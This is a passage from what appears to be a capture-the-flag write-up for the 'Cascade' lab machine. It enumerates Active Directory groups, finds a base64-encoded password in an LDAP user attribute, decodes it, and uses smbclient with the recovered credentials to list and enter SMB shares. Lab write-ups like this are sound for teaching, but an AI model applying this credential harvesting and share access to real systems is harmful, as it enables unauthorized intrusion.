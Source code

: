 ```
group:[AD Recycle Bin] rid:[0x45f]                                                                                   
group:[Backup] rid:[0x460]                                                                                           
group:[Temps] rid:[0x463]                                                                                            
group:[WinRMRemoteWMIUsers__] rid:[0x465]                                                                            
group:[Remote Management Users] rid:[0x466]                                                                          
group:[Factory] rid:[0x46c]                                                                                          
group:[Finance] rid:[0x46d]                                                                                          
group:[Audit Share] rid:[0x471]                                                                                      
group:[Data Share] rid:[0x472]  
```
I have a list of usernames and a list of groups. I will try with each one of these username to do a null authentication on smb port 445. But that was not the case. At this point I install and open a gui tool called *jxplorer*. With this tool I can inspect ldap easily. I enter the host ip and then try to find juicy info on users attributes.
![r_thompson_password_base64](https://user-images.githubusercontent.com/16364370/78823302-fe4cf600-79cb-11ea-8bfc-f16aa1ee70c0.png)

User r.thompson has a attribute named CascadeLegacyPwd, and I can tell it is base64 because I see a `=`.
I get the password for that user.

```
echo -n "clk0bjVldmE=" | base64 -d
rY4n5eva
```

Let's use smbclient with the username and password we have, to test if we can login to smb .....


```
smbclient -L //10.10.10.182 -U r.thompson
Enter WORKGROUP\r.thompson's password: rY4n5eva

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        Audit$          Disk      
        C$              Disk      Default share
        Data            Disk      
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        print$          Disk      Printer Drivers
        SYSVOL          Disk      Logon server share 
SMB1 disabled -- no workgroup available
```
I try to access Audit$ but I don't have permission to do, and then I try Data:
```
kali@kali:~/Desktop/Boxes/Cascade/Nmap$ smbclient  //10.10.10.182/Audit$ -U r.thompson
Enter WORKGROUP\r.thompson's password: 
Try "help" to get a list of possible commands.
smb: \> ls
NT_STATUS_ACCESS_DENIED listing \*
smb: \> exit
kali@kali:~/Desktop/Boxes/Cascade/Nmap$ smbclient  //10.10.10.182/Data -U r.thompson
Enter WORKGROUP\r.thompson's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Jan 26 22:27:34 2020
  ..                                  D        0  Sun Jan 26 22:27:34 2020
```